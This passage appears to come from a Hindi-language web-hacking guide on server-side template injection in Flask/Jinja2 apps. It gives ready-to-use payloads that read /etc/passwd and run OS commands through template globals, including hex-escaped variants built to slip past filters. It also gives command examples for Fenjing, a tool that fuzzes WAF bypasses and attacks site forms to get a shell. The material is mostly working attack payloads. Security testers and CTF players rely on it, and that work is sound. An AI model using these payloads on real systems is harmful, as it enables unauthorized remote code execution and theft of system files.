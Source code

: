 ```bash
- from_json
- from_mapping
- get_namespace
- __repr__

# You can iterate through children objects to find more
```
एक बार जब आप कुछ फ़ंक्शन ढूंढ लेते हैं, तो आप बिल्ट-इन को पुनर्प्राप्त कर सकते हैं:
```python
# Read file
{{ request.__class__._load_form_data.__globals__.__builtins__.open("/etc/passwd").read() }}

# RCE
{{ config.__class__.from_envvar.__globals__.__builtins__.__import__("os").popen("ls").read() }}
{{ config.__class__.from_envvar["__globals__"]["__builtins__"]["__import__"]("os").popen("ls").read() }}
{{ (config|attr("__class__")).from_envvar["__globals__"]["__builtins__"]["__import__"]("os").popen("ls").read() }}

{% raw %}
{% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("ls")["read"]() %} {{ a }} {% endwith %}
{% endraw %}


## Extra
## The global from config have a access to a function called import_string
## with this function you don't need to access the builtins
{{ config.__class__.from_envvar.__globals__.import_string("os").popen("ls").read() }}

# All the bypasses seen in the previous sections are also valid
```
### Fuzzing WAF bypass

**Fenjing** [https://github.com/Marven11/Fenjing](https://github.com/Marven11/Fenjing) एक उपकरण है जो CTFs पर विशेषीकृत है लेकिन वास्तविक परिदृश्य में अमान्य पैरामीटर को ब्रूटफोर्स करने के लिए भी उपयोगी हो सकता है। यह उपकरण बस शब्दों और प्रश्नों को छिड़कता है ताकि फ़िल्टर का पता लगाया जा सके, बायपास की खोज की जा सके, और एक इंटरैक्टिव कंसोल भी प्रदान करता है।
```
webui:
As the name suggests, web UI
Default port 11451

scan: scan the entire website
Extract all forms from the website based on the form element and attack them
After the scan is successful, a simulated terminal will be provided or the given command will be executed.
Example:python -m fenjing scan --url 'http://xxx/'

crack: Attack a specific form
You need to specify the form's url, action (GET or POST) and all fields (such as 'name')
After a successful attack, a simulated terminal will also be provided or a given command will be executed.
Example:python -m fenjing crack --url 'http://xxx/' --method GET --inputs name

crack-path: attack a specific path
Attack http://xxx.xxx/hello/<payload>the vulnerabilities that exist in a certain path (such as
The parameters are roughly the same as crack, but you only need to provide the corresponding path
Example:python -m fenjing crack-path --url 'http://xxx/hello/'

crack-request: Read a request file for attack
Read the request in the file, PAYLOADreplace it with the actual payload and submit it
```